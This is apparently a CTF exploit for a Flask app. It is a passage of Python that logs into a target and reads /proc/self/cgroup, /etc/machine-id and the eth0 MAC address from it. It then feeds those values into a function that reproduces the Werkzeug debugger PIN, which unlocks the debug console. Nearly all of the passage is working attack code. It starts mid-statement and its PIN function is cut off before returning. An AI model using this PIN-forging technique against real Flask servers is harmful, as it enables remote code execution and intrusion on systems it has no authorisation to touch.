 ```
    'http': 'http://127.0.0.1:8080'
}
login_url = base_url + 'login'
r = s.post(url=login_url, data=login_data, proxies=proxies)

cgroup = get_content('/proc/self/cgroup', 'docker/(.*?),')
machine_id = get_content('/etc/machine-id', '(.*)')
eth0 = get_content('/sys/class/net/eth0/address', '(.*)')

eth0 = str(int(eth0.replace(':', ''), 16))

print("eth0 is: ", eth0)
print("machine_id is: ", machine_id)
print("cgroup is: ", cgroup)
solve('ctf', eth0, machine_id, cgroup)
```

pin.py

```
import hashlib
from itertools import chain

def solve(username, eth0, machine_id, cgroup):
    probably_public_bits = [
    username,# username ok
    'flask.app', # ok
    'Flask' #ok,
    '/usr/local/lib/python3.8/site-packages/flask/app.py' # ok
]

    private_bits = [
        eth0,# /sys/class/net/eth0/address
        machine_id + cgroup
        # '7cb84391-1303-4564-8eff-ef7571804198327e92627edf30f63fde916e3c3017aea76eeb876265a726270a575d391eeb4a'# machine-id
        # /etc/machine-id + /proc/self/cgroup
    ]

    h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode('utf-8')
        h.update(bit)
    h.update(b'cookiesalt')

    cookie_name = '__wzd' + h.hexdigest()[:20]

    num = None
    if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

    rv =None
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                            for x in range(0, len(num), group_size))
                break
        else:
            rv = num
```